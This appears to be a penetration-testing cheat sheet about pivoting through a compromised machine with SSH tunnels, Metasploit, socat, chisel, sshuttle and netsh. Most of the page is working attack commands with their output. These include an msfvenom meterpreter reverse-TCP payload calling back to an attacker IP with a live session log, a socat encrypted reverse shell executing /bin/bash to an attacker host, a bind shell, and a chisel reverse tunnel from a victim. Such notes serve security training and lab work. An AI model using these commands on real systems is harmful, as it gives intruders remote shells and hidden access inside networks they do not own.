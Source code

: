 ```yaml
---
title: Proxy & Port forwarding
description: Desciption of two pivot techniques, port forwarding and proxy.
---
```


# Proxy & Port forwarding

**2 methods :**

- **Tunnelling/Proxying:** Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network. This could potentially also be _tunnelled_ inside another protocol (e.g. SSH tunnelling), which can be useful for evading a basic **I**ntrusion **D**etection **S**ystem (IDS) or firewall.
- **Port Forwarding:** Creating a connection between a local port and a single port on a target, via a compromised host.

Port Forwarding tends to be faster and more reliable, but only allows us to access a single port (or a small range) on a target device.

## Using SSH

### Proxy

**Proxy :** http://127.0.0.1:8080

```bash
ssh -D 8080 user@example.com -fN
```

**Proxy :** socks5://127.0.0.1:9050

```bash
ssh -g -D 9050 user@example.com -fN
```

### Port forwarding (local)

The `example.com` machine has a web server running on port 8000 internally (not exposed to the internet). With the following command you can now access the web server from `http://localhost:4444`.

```bash
ssh -L 4444:127.0.0.1:8000 user@example.com -fN
```

- `-f` : Backgrounds ssh.
- `-N` : Do not execute a remote command.

### Port forwarding (remote)

**Goal :** localhost:4444 -> host1:4444 -> host2:80

Listen on all interfaces :

```bash
# localhost:4444 -> host1:4444 -> host2:80
ssh -R 0.0.0.0:4444:host2:80 user@host1 -fN
```

!!! warning
    You need also to configure SSH daemon on target host to allow client to specify the bind_address. It is prohibited by default to listen to all interfaces. So, you will always find it listening on loopback even if you specifiy 0.0.0.0 as bind_address.

When you cannot listen on all interfaces :

```bash
# localhost:4444 -> host1:4444
ssh -L 4444:127.0.0.1:4444 user@host1 -fN
# host1:4444 -> host2:80
ssh -R 4444:host2:80 user@host1 -fN
```

## Using metasploit (meterpreter)

### Port forwarding

- Generate the exploit with `msfvenom`.

```bash
$ msfvenom -p 'linux/x64/meterpreter_reverse_tcp' LHOST=10.132.0.2 LPORT=9001 -f elf > exploit.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1037272 bytes
Final size of elf file: 1037272 bytes

$ file exploit.bin
exploit.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), static-pie linked, with debug_info, not stripped
```

- Setup listener

```bash
$ msfconsole
...
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST ens4
LHOST => 10.132.0.2
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.132.0.2:9001
[*] Meterpreter session 1 opened (10.132.0.2:9001 -> 10.154.0.2:45462 ) at 2021-10-19 19:27:31 +0000

meterpreter >
```

- Do port forwarding

```
meterpreter > portfwd add -l 4444 -p 8000 -r 127.0.0.1
[*] Local TCP relay created: :4444 <-> 127.0.0.1:8000
meterpreter > portfwd list

Active Port Forwards
====================

   Index  Local           Remote        Direction
   -----  -----           ------        ---------
   1      127.0.0.1:8000  0.0.0.0:4444  Forward

1 total active port forwards.

meterpreter > portfwd delete -l 4444 -p 8000 -r 127.0.0.1
[*] Successfully stopped TCP relay on 0.0.0.0:4444
```

`-l` : Port on your local machine (attacker machine).
`-p` : Port on the remote machine (victim machine).
`-r` : Target host.

## Using socat

### Port forwarding

```bash
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

Listent on `33060`, then redirect to `172.16.0.10:3306`.

- `fork` : create new process for every connection.
- `reuseaddr` : port stays open after a connection close.

### Encrypted shell

Generate certificates :

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```
Reverse shell :

```bash
# Listener (attacker)
socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0 -

# Connection (victim)
./socat OPENSSL:10.10.10.1:4444,verify=0 EXEC:/bin/bash
```

Bind shell :

```bash
# Listener (victim)
./socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

# Connection (attacker)
socat OPENSSL:10.10.200.1:4444,verify=0 -
```

## Using chisel

Link : [chisel](https://github.com/jpillora/chisel).

### Port fowarding

Example : `localhost:8081` -> `victim:8080` (from local)

```bash
# Listener (attacker on 10.10.10.1)
./chisel server -p 4444 --reverse

# Connection (victim)
./chisel client 10.10.10.1:4444 R:8081:127.0.0.1:8080
```

## Using sshuttle

Link : [sshuttle](https://github.com/sshuttle/sshuttle).

Sshuttle acts as a VPN and allows us to pass our traffic targeting the victim's network through the victim machine. Sshuttle uses the SSH protocol, so communications are encrypted.

```bash
# SSH (user / password)
sudo sshuttle -r user@10.100.10.1 -N
# SSH (private key)
sudo sshuttle -r user@10.100.10.1 -N --ssh-cmd 'ssh -i id_rsa'

# Manually set the network range
sudo sshuttle -r user@172.16.0.5 172.16.0.0/24
# or
sudo sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5
```

**Practical example :**

```bash
$ sudo sshuttle -r root@10.200.196.200 -N --ssh-cmd 'ssh -i id_rsa -o StrictHostKeychecking=no' &
[1] 6803
c : Connected to server.
# 10.200.196.150, same network as 10.200.196.200
$ curl 10.200.196.150
<!DOCTYPE html>
<html lang="en">
<head>
  <meta http-equiv="content-type" content="text/html; charset=utf-8">
  <title>Page not found at /</title>
  <meta name="robots" content="NONE,NOARCHIVE">
  <style type="text/css">
[...]
```

## Using netsh (Windows)

### Port fowarding

`10.200.81.150:21000` -> `10.200.81.100:80`

```powershell
C:\> netsh advfirewall firewall add rule name="portfwd" dir=in action=allow protocol=tcp localport=21000
Ok.
C:\> netsh interface portproxy add v4tov4 listenport=21000 listenaddress=10.200.81.150 connectport=80 connectaddress=10.200.81.100
```
